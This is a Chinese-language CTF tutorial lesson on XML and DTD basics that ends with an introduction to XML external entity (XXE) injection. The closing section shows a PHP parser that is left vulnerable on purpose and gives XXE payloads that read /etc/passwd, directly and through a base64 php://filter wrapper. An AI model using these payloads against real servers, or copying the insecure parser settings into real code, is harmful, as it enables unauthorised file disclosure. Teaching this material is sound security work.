# CTF教程：P69：XML基础、DTD基础、XXE简介 🔐





在本节课中，我们将要学习XML外部实体注入攻击的基础知识。为了理解这个漏洞，我们需要先掌握XML语言和DTD文档类型定义的核心概念。本节课将分为两部分：首先介绍XML和DTD的基础知识，然后初步了解XXE漏洞的成因和基本利用方式。

## XML基础 📄

上一节我们概述了本节课的内容，本节中我们来看看XML的基础知识。

XML是一种用于标记电子文件，使其具有结构性的可扩展标记语言。它的形式与HTML语言类似，但XML语言没有固定的标签，所有标签都可以自定义。XML设计的宗旨是传输数据，而不是像HTML语言一样用于前端显示。

接下来，我们了解一下程序处理XML的流程。

以下是XML处理的基本流程：
1.  客户端生成一个XML文档。
2.  通过HTTP协议将XML文档发送给服务端。
3.  服务端接收请求后，使用XML解析库进行解析。
4.  解析后，服务端可能将数据回显给客户端，或进行其他处理。

一个典型的XML文档结构如下所示：
```xml
<?xml version="1.0" encoding="UTF-8"?>
<book id="1">
    <name>CTF从入门到精通</name>
    <author>白帽子</author>
    <year>2023</year>
    <price>99.99</price>
</book>
```







XML文档需要遵循以下语法规则：
*   **必须有一个根元素**：例如上述代码中的 `<book>`。
*   **元素必须有关闭标签**：每个开始标签必须有对应的结束标签。
*   **对大小写敏感**：开始标签和结束标签的大小写必须一致。
*   **必须正确嵌套**：子元素必须完全包含在父元素内。
*   **属性值必须加引号**：例如 `id="1"`。







## XML文档结构 🏗️



了解了XML的基本语法后，本节我们来看看一个完整的XML文档由哪些部分构成。





一个XML文档通常包含三个部分：
1.  XML声明
2.  DTD文档类型定义（可选）
3.  文档元素

第一部分是XML声明，用于告知解析器文档的基本信息。
```xml
<?xml version="1.0" encoding="UTF-8"?>
```
*   `<?xml ... ?>` 是XML文档的标记。
*   `version="1.0"` 指定了XML的版本。
*   `encoding="UTF-8"` 指定了文档的字符编码。如果文档实际编码与此不符，可能会导致解析错误。

## DTD基础 📝



上一节我们提到了DTD，本节中我们来详细了解一下什么是DTD。









DTD是文档类型定义，用于为XML文档定义语义约束。由于XML标签可以自定义，DTD就像一个模板，规定了用户创建的根元素、子元素及其合法值和属性。文档元素必须依据DTD模板进行规范化编写。

DTD的声明有两种方式：内部声明和外部声明。

**内部声明**将DTD定义直接写在XML文档内部。
```xml
<!DOCTYPE book [
    <!ELEMENT book (name, author, year)>
    <!ELEMENT name (#PCDATA)>
    <!ELEMENT author (#PCDATA)>
    <!ELEMENT year (#PCDATA)>
]>
<book>
    <name>CTF教程</name>
    <author>安全研究员</author>
    <year>2023</year>
</book>
```

**外部声明**通过引用外部文件或URL来定义DTD。
```xml
<!DOCTYPE book SYSTEM "http://192.168.1.239/dtd/book.dtd">
<book>
    <name>CTF教程</name>
    <author>安全研究员</author>
    <year>2023</year>
</book>
```
其中，外部文件 `book.dtd` 的内容与内部声明的DTD部分相同。

## DTD中的数据类型 🔤

在DTD中定义元素时，需要指定其数据类型，最常见的是#PCDATA和CDATA。









**#PCDATA** 表示可解析的字符数据。解析器会检查其中的文本和标记。如果数据中包含 `<`、`&` 等特殊字符，需要使用预定义的实体引用来代替，否则会引发解析错误。
*   `<` 用 `&lt;` 表示
*   `&` 用 `&amp;` 表示
*   `>` 用 `&gt;` 表示

**CDATA** 表示不应由XML解析器进行解析的文本数据。其中的所有内容都会被解析器忽略。它用于包含可能含有大量特殊字符（如代码片段）的文本块。
CDATA区块的语法是：`<![CDATA[ ... ]]>`
```xml
<name><![CDATA[<特殊内容&>]]></name>
```
需要注意的是，CDATA部分中不能包含其结束标记 `]]>`，也不允许嵌套。







## DTD实体 🧩



理解了DTD的基本结构后，本节我们来学习DTD的核心组成部分之一：实体。实体可以理解为可复用的变量或数据块。

实体主要分为内部普通实体、外部普通实体和参数实体。





**内部普通实体**在DTD内部定义和赋值。
声明语法：`<!ENTITY 实体名 "实体值">`
引用语法：`&实体名;`
```xml
<!DOCTYPE test [
    <!ENTITY hello "World">
]>
<message>Hello &hello;</message>
<!-- 解析后结果为：Hello World -->
```
如果大量嵌套引用实体，可能造成指数级的数据膨胀，从而引发拒绝服务攻击。

**外部普通实体**引用外部文件或URL的内容作为实体值。
声明语法：`<!ENTITY 实体名 SYSTEM "URI">`
```xml
<!DOCTYPE test [
    <!ENTITY file SYSTEM "file:///C:/windows/win.ini">
]>
<content>&file;</content>
```
当XML解析器处理此文档时，会尝试读取并引入指定文件的内容。如果服务端代码存在漏洞且未做防护，攻击者可以利用此特性读取服务器上的任意文件（如 `/etc/passwd`）。

不同语言在解析外部实体时支持的协议有所不同：
*   **通用**：`file`、`http`、`ftp`
*   **PHP**：`php://filter`（常用于读取文件时进行Base64编码，避免特殊字符导致解析错误）
*   **Java**：`jar://`、`netdoc://`
*   **.NET**：`file://`



## XXE漏洞简介与演示 ⚠️



掌握了XML和DTD实体后，我们现在可以理解XXE漏洞了。XXE全称XML External Entity Injection，即XML外部实体注入。

当应用程序解析用户可控的XML输入时，如果没有禁用外部实体的加载，攻击者就可以构造恶意的XML文档，通过外部实体声明来读取服务器内部文件、发起网络请求，甚至可能导致拒绝服务或远程代码执行。





以下是一个存在XXE漏洞的PHP代码示例及利用演示：
```php
<?php
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
$creds = simplexml_import_dom($dom);
echo $creds;
?>
```
攻击者可以发送如下Payload：
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
    <!ENTITY exploit SYSTEM "file:///etc/passwd">
]>
<root>&exploit;</root>
```
服务器解析后，会将 `/etc/passwd` 文件的内容回显出来。

如果文件内容含有特殊字符，可以使用PHP过滤器包装：
```xml
<!ENTITY exploit SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
```
读取到的是Base64编码后的内容，解码即可获得文件原文。

---



本节课中我们一起学习了XML和DTD的基础语法，了解了DTD实体的概念，特别是外部实体如何被用来引用外部资源。最后，我们通过实例看到了，如果服务器在解析XML时未对外部实体进行限制，就会产生XXE漏洞，导致敏感信息泄露。下节课我们将深入探讨更复杂的参数实体及其在XXE中的利用技巧。